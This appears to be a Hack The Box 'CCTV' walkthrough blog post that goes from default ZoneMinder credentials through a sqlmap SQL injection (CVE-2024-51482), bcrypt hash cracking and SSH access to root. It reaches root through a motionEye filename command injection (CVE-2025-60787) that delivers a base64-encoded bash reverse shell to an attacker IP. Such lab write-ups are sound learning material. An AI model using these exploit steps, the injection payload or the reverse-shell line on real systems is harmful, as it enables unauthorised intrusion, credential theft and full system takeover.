



## Introduction

Welcome back to another walkthrough on HTB's CCTV box, created by [holdthefort](https://app.hackthebox.com/users/1034350). This box showcases some basic misconfigurations paired up with public CVEs to take us from unauthenticated to root pretty quickly. I think this was a true-to-form easy box, appropriately rated, and I enjoyed the process of exploiting it from start to finish!

> [!question] Spoiler alert!
> In case you're squeamish about this sort of thing, there are a bunch of spoilers ahead - proceed at your own (self-learning) risk. I'll be diving into the nitty-gritty behind solutions where I can, so hopefully you'll be able to learn a thing or two. It's also worth noting that if you're working alongside me, you'll see different IP addresses - since I'm on a VIP subscription, they're deployed on-demand.
{icon="circle-info"}

## Initial Access

As always, we start off the box by running an `nmap` scan for all TCP ports to see what we have to work with. In this case, `nmap` shows us two ports live on the box:
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 76:1d:73:98:fa:05:f7:0b:04:c2:3b:c4:7d:e6:db:4a (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE[...]ihFA=
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.58
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: SecureVision CCTV & Security Solutions
```

SSH is generally an unlikely candidate, so I'll start by checking out the web port. If we try to visit `http://10.129.244.156` in a web browser, we're instantly redirected to `http://cctv.htb` - in order to resolve the page, we'll add that to our `/etc/hosts` file and refresh the page.

Once we refresh, the site shows us a SecureVision page - a security solutions company providing CCTV solutions. Most of the page doesn't really do anything, but the "Staff Login" button in the top right of the page redirects us to a Zoneminder login page.



We can run enumeration against this site to check for extra subdomains with `ffuf`, look for low-hanging fruit with scanners like `nikto`, and fuzz for other pages - but the reality is much more boring in this case. Guessing default credentials will sometimes work, and in this case we get a hit for `admin :: admin`. Once we're logged in, we can see the Zoneminder version in the top right, `v1.37.63`:



### SQL Injection

Because we have a solid version number, it's easy to run a quick check on CVE Details, and we end up finding a plausible-looking SQL injection in [CVE-2024-51482](https://www.cvedetails.com/cve/CVE-2024-51482/). A bit of Googling lands us on [this Github repo analyzing CVE-2024-51482](https://github.com/BridgerAlderson/CVE-2024-51482), which shows us that our injection point looks like this:

```
http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=[INJECTION_POINT]
```

Ideally, we'd manually check the vulnerability with our own time-based payload first - but the quick-and-dirty way is to slam SQLMap into the page and see what it comes up with. We'll start by figuring out what databases are available, then the tables, and so on. But in order to do that, it'll need a way to authenticate in order to hit the endpoint in question.

We can set SQLMap up with auth by grabbing the session cookies from our web session for use with SQLMap. It's easiest to do by proxying our web traffic through Burp, but you can do it in the browser's Dev tools as well - we only need to copy the `ZMSESSID` cookie. We can pass it through to our SQLMap command with either the `--cookies` or the `-H` flag.

The SQL injection uses a blind time-based technique, so it'll take a while to run - you may have to replace the `ZMSESSID` cookie with a fresh one in between SQLMap runs.

SQLMap gets us the databases with the following command:

```console
$ sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' -H 'Cookie: ZMSESSID=pqbsu3ocartt1h1e04kfhegd2m' -p tid --dbms="MySQL" --technique=T --dbs --batch
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.10.6#stable}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:39:08 /2026-07-10/

[20:39:09] [INFO] testing connection to the target URL
[20:39:09] [WARNING] heuristic (basic) test shows that GET parameter 'tid' might not be injectable
[20:39:09] [INFO] testing for SQL injection on GET parameter 'tid'
[20:39:09] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[20:39:09] [WARNING] time-based comparison requires larger statistical model, please wait............................ (done)                            
[20:39:21] [INFO] GET parameter 'tid' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[...]

available databases [3]:
[*] information_schema
[*] performance_schema
[*] zm
```

Now that we have a list of the DBs, we can enumerate the tables. The most interesting is the `zm` database, so we modify the previous SQLMap command to use the `-D zm` option. There are 43 tables in total, so lots of text will be cut out of this code block.

```console
$ sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' -H 'Cookie: ZMSESSID=e1lct186qaefj5oieb3ar8vff4' -p tid --dbms="MySQL" --technique=T -D zm --tables --dump --batch

Database: zm
[43 tables]
+----------------------+
| Config               |
| ControlPresets       |

        [...]

| Users                |
| ZonePresets          |
| Zones                |
| Events               |
| Groups               |
| Logs                 |
| Storage              |
+----------------------+
```

Out of that list, I'm most interested in the `Users` table. Let's dump the tables from the `zm` database with this command:

```console
$ sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' -H 'Cookie: ZMSESSID=e1lct186qaefj5oieb3ar8vff4' -p tid --dbms="MySQL" --technique=T -D zm -T Users -C Username,Password --dump --batch

[...]

Database: zm
Table: Users
[3 entries]
+------------+--------------------------------------------------------------+
| Username   | Password                                                     |
+------------+--------------------------------------------------------------+
| superadmin | $2y$10$cmytVWFRnt1XfqsItsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm |
| mark       | $2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG. |
| admin      | $2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m |
+------------+--------------------------------------------------------------+
```

### Hash Cracking

So we have usernames and password hashes - but what kind of hash is being used by ZoneMinder? We can figure out what hash it might be in a few different ways, but a really easy check is with `hashid`. Just pass in a hash via `stdin` (in this case, I'm using the admin hash) and you're off to the races:

```console
$ echo '$2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m' | hashid
Analyzing '$2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt
```

Easy enough - another alternative is to consult the documentation for the software to see what modes it supports. Either way, we have our hash type - let's set up a `hash.txt` file with the hashes in `username:hash` format. You can use any method you like, but it should end up like this:

```console
$ cat hash.txt
superadmin:$2y$10$cmytVWFRnt1XfqsItsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm
mark:$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.
admin:$2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m
```

So how do we turn this into something usable? If the password is weak enough, we can use programs like `john` or `hashcat` to crack the hash and turn it back into a plaintext password. My preference is to use `hashcat` - to crack `bcrypt` hashes with it we just need to know what cracking mode we're going to use. To do that, we can use the `--example-hashes` flag:

```console
$ hashcat --example-hashes | grep -A 5 'bcrypt'
  Name................: bcrypt $2*$, Blowfish (Unix)
  Category............: Operating System
  Slow.Hash...........: Yes
  Deprecated..........: No                                                  
  Deprecated.Notice...: N/A        
  Password.Type.......: plain
--                        
  Name................: bcrypt(md5($pass))
  Category............: Generic KDF
  Slow.Hash...........: Yes
  Deprecated..........: No                                                                                                                               
  Deprecated.Notice...: N/A    
  Password.Type.......: plain         
--                         
  Name................: bcrypt(sha1($pass))
  Category............: Generic KDF
  Slow.Hash...........: Yes
  Deprecated..........: No                                                  
  Deprecated.Notice...: N/A                                                 
  Password.Type.......: plain
--
[...]
```

So we have a hit on `bcrypt $2*$` - playing with our `grep` limits (or using a different program, like `less`) will eventually reveal that we're looking for mode 3200 to crack `bcrypt` hashes. We can try to crack it with the following command: `hashcat -m 3200 -a 0 --username hash.txt /usr/share/wordlists/rockyou.txt`

I say _try_ because when I did the box the first time, `hashcat` was correctly detecting the appropriate backend in my VM - this time it decided to do this instead!

```console
$ hashcat -b                        
hashcat (v7.1.2) starting in benchmark mode
                                                                            
Benchmarking uses hand-optimized kernel code by default.
You can use it in your cracking session by setting the -O option.
Note: Using optimized kernel code limits the maximum supported password length.
To disable the optimized kernel code in benchmark mode, use the -w option.

clGetPlatformIDs(): CL_PLATFORM_NOT_FOUND_KHR

ATTENTION! No OpenCL, HIP or CUDA compatible platform found.

You are probably missing the OpenCL, CUDA or HIP runtime installation.

* AMD GPUs on Linux require this driver:
  "AMD Radeon Software for Linux" with "ROCm"
* Intel and AMD CPUs require this runtime:
  "Intel CPU Runtime for OpenCL" or PoCL
* Intel GPUs require this driver:
  "Intel Graphics Compute Runtime" aka NEO
* NVIDIA GPUs require this runtime and driver:
  "NVIDIA CUDA Toolkit" (both runtime and driver included)

Started: Fri Jul 10 20:59:22 2026
Stopped: Fri Jul 10 20:59:22 2026
```

I did some minor troubleshooting and digging, but overall I ended up spending too much time chasing ghosts instead of solutions. So, we pivot - we'll instead crack the hash with `john`, which instead just uses the handy `--format` flag:

```console
$ john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Created directory: /home/vagrant/.john
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
opensesame       (mark)
admin            (admin)
```

At the bottom of the list, you'll see the cracked passwords with their respective users. We now have `mark`'s password - let's see if we can SSH in:

```console
$ ssh mark@cctv.htb
mark@cctv.htb's password: 
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-111-generic x86_64)
                                                                            
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro                                                                                                                
                                      
 System information as of Sat 11 Jul 01:01:23 UTC 2026
[...]
[mark@cctv:~]$ whoami; id
mark
uid=1000(mark) gid=1000(mark) groups=1000(mark),24(cdrom),30(dip),46(plugdev)
```

Success!

## Privilege Escalation

Now that we're `mark`, we need to see how we can escalate our privileges. As always, the first check I run is to see if they have any interesting `sudo` permissions:

```console
[mark@cctv:~]$ sudo -l
[sudo] password for mark: 
Sorry, user mark may not run sudo on cctv.
```

That's a bust - on to the next easiest thing, running [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master). It's a script that automatically performs a bunch of checks on permissions, interesting file paths, and other good enumeration bits and bobs. While it is a bit overwhelming, it makes enumeration a breeze once you know what to look for.

We can use many file transfers to get LinPEAS over to the CCTV box, but since we know `mark`'s password `scp` is a good reliable way:

```console
$ scp /opt/scripts/linpeas.sh mark@cctv.htb:/home/mark/lp.sh
mark@cctv.htb's password: 
linpeas.sh                                                                                                             100% 1064KB   2.2MB/s   00:00
```

Now we just need to run the file, saving the output (if we want) with `tee`:

```console
mark@cctv:~$ chmod +x lp.sh                                                                                                                              
mark@cctv:~$ ./lp.sh | tee lp.txt

                                    [...]

    /---------------------------------------------------------------------------------\
    |                             Do you like PEASS?                                  |
    |---------------------------------------------------------------------------------|
    |         Linux PE & Hardening    :     https://hacktricks-training.com/courses/lhe/ |
    |         Learn Cloud Hacking       :     https://training.hacktricks.xyz         |
    |         Follow on Twitter         :     @hacktricks_live                        |
    |         Respect on HTB            :     SirBroccoli                             |
    |---------------------------------------------------------------------------------|
    |                                 Thank you!                                      |
    \---------------------------------------------------------------------------------/
          LinPEAS-ng by carlospolop

                                    [...]
```

Once the output finishes, parse through it with whatever program is comfortable - `less -R` is my go-to. Eventually, I noticed an interesting file listed at `/opt/video/backups/server.log`. Those familiar with Linux will know that often times, installed programs go into `/opt` - let's check out that file:

```console
[mark@cctv:~]$ cat /opt/video/backups/server.log
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-07-11 00:39:40
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-07-11 00:40:22
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-07-11 00:41:09
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-07-11 00:41:46
                                    [...]
```

So _something_ that's installed is authenticating as `sa_mark` - but what is it? If we look back at the LinPEAS output, we can see a listing of the open ports:
```
══╣ Active Ports (netstat) (T1049)
tcp        0      0 127.0.0.1:8765          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:9081          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8554          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:7999          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:1935          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

When I see local-only services, I'll typically throw a `curl` at it and see if anything's listening with HTTP(s). Sometimes you won't get anything back, others will just be uninteresting, but occasionally you'll see a new service worth investigating further. Running it against port 8765 returns this:

```console
[mark@cctv:~]$ curl localhost:8765

<!DOCTYPE html>
<html>
    <head>
            <meta charset="utf-8">
            <meta name="viewport" content="width=device-width, initial-scale=1">                                                                         
            <meta name="mobile-web-app-capable" content="yes">
            <meta name="apple-mobile-web-app-capable" content="yes">
            <meta name="theme-color" content="#414141">
            <meta name="apple-mobile-web-app-status-bar-style" content="#414141">
        <title>cctv</title>
            <link rel="stylesheet" type="text/css" href="static/css/jquery.timepicker.min.css?v=0.43.1b4">
            <link rel="shortcut icon" href="static/img/motioneye-logo.svg">
            <link rel="apple-touch-icon" href="static/img/motioneye-logo.svg">
            <link rel="manifest" href="static/../manifest.json?v=0.43.1b4">
    <link rel="stylesheet" type="text/css" href="static/css/ui.css?v=0.43.1b4">
    <link rel="stylesheet" type="text/css" href="static/css/main.css?v=0.43.1b4">
              [...]
```

We primarily learn two things from this - first, the title of the page in question is `cctv`; and second, it appears to be running something named `motioneye`, version of `0.43.1b4`. Googling shows that [MotionEye is an open-source Python-based surveillance software](https://github.com/motioneye-project/motioneye) for CCTV equipment, specifically targeting motion detection using the `motion` library.

While the `curl` is good for a quick check, it's not great for extended analysis. It'd be fantastic to have a way to view the site in a browser - and thankfully SSH gives us a way to do that natively with [SSH tunneling](https://www.ssh.com/academy/ssh/tunneling). All our traffic sent to `localhost:8765` will be forwarded through `mark`'s tunnel to `cctv.htb:8765`, letting us open the page in our browser.

Let's set up a SSH tunnel to check out the CCTV site. We run `ssh -L 8765:127.0.0.1:8765 -fN mark@cctv.htb`, with `-fN` setting it to a background task (`-f`) and preventing execution of remote commands (`-N`). After running that, we can view the site finally:




We're hit with a Motioneye login page - so we either need credentials for this service or to find some kind of pre-authentication exploit. If you dig a bit into Motioneye, you can find the [configuration file documentation](https://github.com/motioneye-project/motioneye/wiki/Configuration-File) on their Github. Finding and reading out that file on the CCTV box returns some annotations labeled `admin_username` and `admin_password`:

```console
[mark@cctv:~]$ cat /etc/motioneye/motion.conf
# @admin_username admin
# @normal_username user
# @admin_password 989c5a8ee87a0e9521ec81a79187d162109282f0
# @lang en
# @enabled on
# @normal_password 

setup_mode off
webcontrol_port 7999
webcontrol_interface 1
webcontrol_localhost on
webcontrol_parms 2

camera camera-1.conf
```

It's not immediately clear if that's a hashed or plaintext password. Trying `admin :: 989c5a8ee87a0e9521ec81a79187d162109282f0` authenticates successfully, and we can see a camera feed on the page. Poking around the site doesn't yield anything too useful, so I checked CVE Details once again and found a listing for [CVE-2025-60787](https://www.cvedetails.com/cve/CVE-2025-60787/). A little more digging lead to [this Github](https://github.com/prabhatverma47/motionEye-RCE-through-config-parameter), which listed the following steps to exploit it:
1. Open the sidebar menu, scroll down to the "Still Images" section and open the dropdown
2. Change the capture mode to "Interval Snapshots"
3. Change the interval to something you like, like `10 seconds`
4. Hit `F12` to bring up the browser's developer tools and navigate to the console
5. Paste in the following Javascript code and hit "Enter":
```javascript
configUiValid = function() { 
    return true; 
};
```
6. Edit a bash subshell OS command into the filename, like so: `$(touch /tmp/test).%Y-%m-%d-%H-%M-%S`
7. Click the orange "Apply" button; once the next interval passes, the command will be executed

Since we set our first payload to just create a file to ensure it functions correctly, we can monitor progress by `sleep`ing the terminal and then checking for the existence of our test file:

```console
mark@cctv:~$ sleep 10; ls -la /tmp/test
-rw-r--r-- 1 root root 0 Jul 11 01:15 /tmp/test
```

We've confirmed that we have root code execution now. The path diverges a ton from here - there's lots that can be done to get deeper into a system - but we'll set up a reverse shell and listener so that we'll have control of a shell as `root`.

First, we need to encode a basic bash reverse shell into `base64` - this helps keep it from getting mangled in transit. Run the encode, and then start up a `netcat` listener to catch our shell:

```console
$ echo -n 'bash  -i >& /dev/tcp/10.10.14.188/9001 0>&1' | base64          
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTg4LzkwMDEgMD4mMQ==
$ ncat -lvp 9001
Ncat: Version 7.99 ( https://nmap.org/ncat )
Ncat: Listening on [::]:9001
Ncat: Listening on 0.0.0.0:9001
```

Now, all that's left is to change the subshell command on CCTV to `$(echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTg4LzkwMDEgMD4mMQ== | base64 -d | bash).%Y-%m-%d-%H-%M-%S` and click "Apply". Wait a few seconds, and we catch the shell:

```console
$ ncat -lvp 9001
Ncat: Version 7.99 ( https://nmap.org/ncat )
Ncat: Listening on [::]:9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.129.244.156:46688.
bash: cannot set terminal process group (5405): Inappropriate ioctl for device
bash: no job control in this shell
root@cctv:/etc/motioneye# whoami; id
whoami; id
root
uid=0(root) gid=0(root) groups=0(root)
```

And with that, we have complete control - and CCTV is finished!

## References
### User Access
ZoneMinder Default Credentials Documentation: [https://github.com/ZoneMinder/zoneminder/blob/master/docs/userguide/gettingstarted.rst](https://github.com/ZoneMinder/zoneminder/blob/master/docs/userguide/gettingstarted.rst)  
CVE Details CVE-2024-51482: [https://www.cvedetails.com/cve/CVE-2024-51482/](https://www.cvedetails.com/cve/CVE-2024-51482/)  
ZoneMinder CVE-2024-51482 Github: [https://github.com/BridgerAlderson/CVE-2024-51482](https://github.com/BridgerAlderson/CVE-2024-51482)  

### Privilege Escalation
LinPEAS: [https://github.com/peass-ng/PEASS-ng/tree/master](https://github.com/peass-ng/PEASS-ng/tree/master)  
SSH Tunneling: [https://www.ssh.com/academy/ssh/tunneling](https://www.ssh.com/academy/ssh/tunneling)  
CVE-2025-60787: [https://www.cvedetails.com/cve/CVE-2025-60787/](https://www.cvedetails.com/cve/CVE-2025-60787/)  
MotionEye RCE: [https://github.com/prabhatverma47/motionEye-RCE-through-config-parameter](https://github.com/prabhatverma47/motionEye-RCE-through-config-parameter)  
MotionEye Configuration: [https://github.com/motioneye-project/motioneye/wiki/Configuration-File](https://github.com/motioneye-project/motioneye/wiki/Configuration-File)  